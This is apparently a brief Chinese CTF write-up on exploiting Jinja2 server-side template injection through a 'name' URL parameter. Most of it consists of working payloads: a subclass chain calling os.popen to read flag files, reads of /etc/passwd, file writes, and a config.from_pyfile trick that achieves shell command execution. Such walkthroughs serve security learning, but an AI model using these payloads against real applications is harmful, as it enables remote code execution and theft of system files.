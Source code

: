 > 先fuzz测试拿到可以get一个name参数（这也要考，真是服了）
# 开始测试输入
```
http://1ae78b0533574fb6b763eccb831e0b3175b19e935cd04dd7.changame.ichunqiu.com/?name={{1%2B1}}
```
> 这样输出的是hello 2，推测是jinja2命令执行，继续深度测试
掏出上次的payload，
```
aa{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['popen']('cat flag*').read()}}
```
en， 果然不能用,大概到func_globals['linecache']就会报错，好像是没有globals，刚刚学了这个就没有这个，换一个新的payload
```
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

看wp
```
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
```
